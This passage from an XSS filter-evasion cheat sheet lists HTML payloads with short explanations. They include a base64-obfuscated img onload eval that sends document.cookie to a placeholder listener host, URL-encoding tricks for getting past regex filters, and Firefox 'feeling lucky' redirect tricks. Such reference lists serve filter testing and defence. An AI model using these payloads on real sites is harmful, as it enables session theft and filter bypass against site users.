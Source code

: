 ### Base64 Encoding

```html
<img
  onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))"
/>
```

### Mixed Encoding

Let's mix and match base encoding and throw in some tabs and newlines - why browsers allow this, I'll never know). The tabs and newlines only work if this is encapsulated with quotes:

```html
<a
  href="h 
tt  p://6 6.000146.0x7.147/"
  >XSS</a
>
```

### Protocol Resolution Bypass

`//` translates to `http://` which saves a few more bytes. This is really handy when space is an issue too (two less characters can go a long way) and can easily bypass regex like `(ht|f)tp(s)?://` (thanks to Ozh for part of this one). You can also change the `//` to `\\\\`. You do need to keep the slashes in place, however, otherwise this will be interpreted as a relative path URL.

```html
<a href="//www.google.com/">XSS</a>
```

### Google "feeling lucky" part 1

Firefox uses Google's "feeling lucky" function to redirect the user to any keywords you type in. So if your exploitable page is the top for some random keyword (as you see here) you can use that feature against any Firefox user. This uses Firefox's `keyword:` protocol. You can concatenate several keywords by using something like the following `keyword:XSS+RSnake` for instance. This no longer works within Firefox as of 2.0.

```html
<a href="//google">XSS</a>
```

### Google "feeling lucky" part 2

This uses a very tiny trick that appears to work Firefox only, because of it's implementation of the "feeling lucky" function. Unlike the next one this does not work in Opera because Opera believes that this is the old HTTP Basic Auth phishing attack, which it is not. It's simply a malformed URL. If you click okay on the dialogue it will work, but as a result of the erroneous dialogue box I am saying that this is not supported in Opera, and it is no longer supported in Firefox as of 2.0:

```html
<a href="http://ha.ckers.org@google">XSS</a>
```
